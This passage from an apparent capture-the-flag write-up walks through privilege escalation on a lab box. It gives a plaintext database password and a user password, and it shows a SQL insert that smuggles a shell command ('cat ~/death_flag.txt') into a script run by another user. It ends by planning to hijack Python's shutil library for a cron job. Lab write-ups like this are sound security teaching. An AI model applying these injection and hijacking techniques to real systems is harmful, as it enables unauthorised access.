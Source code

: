 ```bash
mysql -u lucien -plucien42DBPASSWORD
```

Then we can move to the correct database:

```sql
show databases;
use library;

show tables;
select * from dreamers;
```

Inject a command to read the flag:

```sql
insert into dreams (dreamer, dream) VALUES ("'flag'", "''; cat ~/death_flag.txt; # ");
```

Now, if we run again the script we will see a new line with the flag printed in the output.

```bash
sudo -u death python3 /home/death/getDreams.py
```

The final command that will be executed by the script "getDreams.py" is:

```bash
echo 'flag'; cat ~/death_flag.txt;
```

In this way we have found the Death's flag.

### What is the Morpheus Flag?

First things first, we can obtain the credentials of the Death user from the script getDreams.py

<Image src={require("./14-death-password.png").default} />

Now we can change the user from Lucien to Death using the password !mementoMORI666!

We can try to look in the system for interesting files of Morpheus:

```bash
find / -type f -group morpheus 2> /dev/null
```

<Image src={require("./15-morpheus-files.png").default} />

<Image src={require("./16-morpheus-folder.png").default} />

The script restore.py is readable by all and it contains a script for the backup of the kingdom folder.

This script could be used for a cron job. We could try to inject some instructions inside the shutil library and then wait for the job to work running the commands as Morpheus.

```bash
find / -name *shutil* 2> /dev/null
ls -al /usr/lib/python3.8/shutil.py
```
